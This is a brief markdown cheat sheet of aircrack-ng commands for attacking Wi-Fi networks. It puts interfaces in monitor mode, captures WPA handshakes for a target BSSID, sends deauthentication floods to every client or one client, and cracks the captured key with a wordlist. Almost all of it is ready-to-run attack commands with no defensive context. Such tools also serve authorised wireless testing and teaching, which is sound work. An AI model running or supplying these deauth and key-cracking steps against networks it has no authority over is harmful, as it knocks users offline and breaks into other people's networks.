 # Aircrack comand

See available wireless network interface to use

```airmon-ng```
Config wireless interface in mod monitor

```airmon-ng start wlan0```

Capture network info

```airodump-ng wlan0``` 

Capture networks info specifiying the chanel and de BSSID, (Also save the handshake in file id record)

```airodump-ng -c6 --bssid [MAC-addres] --write WPAPRueba  wlan0```

Record and write results to csv format

```airodump-ng wlan0 -w wlan_0 --output-format csv```

Deautenticate in mode in broadcast

```aireplay-ng --deauth 100 -a [bssid] wlan0```

Deauthenticate a concret client

```aireplay-ng -0 1 -a [bssid] -c [MAC-addres]  wlan0```

Decrypt key

```aircrack-ng -w password.lst -b [MAC-addres] psk*.cap```


